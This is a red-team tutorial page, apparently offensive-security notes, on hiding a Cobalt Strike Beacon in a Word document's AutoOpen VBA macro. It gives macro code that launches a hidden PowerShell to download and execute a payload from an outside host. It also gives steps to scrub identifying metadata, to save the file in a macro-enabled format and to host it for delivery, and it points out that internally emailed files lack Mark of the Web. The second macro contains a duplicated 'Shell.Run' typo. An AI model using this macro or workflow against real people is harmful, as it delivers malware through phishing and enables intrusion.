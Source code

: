 # VBA Macro Beacon

## Introduction

If we've compromised a users email we've opened a door to many possibilities. We can search the users emails, discover new users, reveal technologies in place, and send email on behalf of the user. Note: files that are emailed internally are not tagged with [MOTW Zone Identifier](https://en.wikipedia.org/wiki/Mark\_of\_the\_Web).

Visual Basic for Applications (VBA) is commonly used to enhance functionality in Excel and Word.&#x20;

### VBA Beacon Macro

We can create a macro in word by going View -> Macros -> Create.&#x20;

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub
```

#### Create Beacon PowerShell payload.

The easiest way to get a Beacon through a VBA macro is to use a PowerShell Beacon. To do so, go to Attacks -> Scripted Web Delivery (S). After that, generate a PowerShell payload & copy and paste it.

<figure><img src="../../.gitbook/assets/Screenshot 2024-07-25 at 12.48.22 AM.png" alt="" width="375"><figcaption></figcaption></figure>

Next, copy the PowerShell payload to the VBA Macro

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://copperwired.com/a'))"""

End Sub
```

Save the Macro, return the Word and go File -> Info -> Inspect Document. Remove _Document Properties and Personal Information._ This will prevent out username and other information from being leaked.

<figure><img src="../../.gitbook/assets/Screenshot 2024-07-25 at 12.55.46 AM.png" alt=""><figcaption></figcaption></figure>

Next we'll save it. It's important to save the Macro as a `.doc` instead of `.docx`. This is because .docx does not allow Macros. Additionally, you can use `.docm` but that's not really what we're looking for.

<figure><img src="../../.gitbook/assets/Screenshot 2024-07-25 at 1.05.09 AM.png" alt=""><figcaption></figcaption></figure>

We'll upload this file to our Cobalt Strike team server. Go to Site Management -> Host File and select our new `.doc` file.
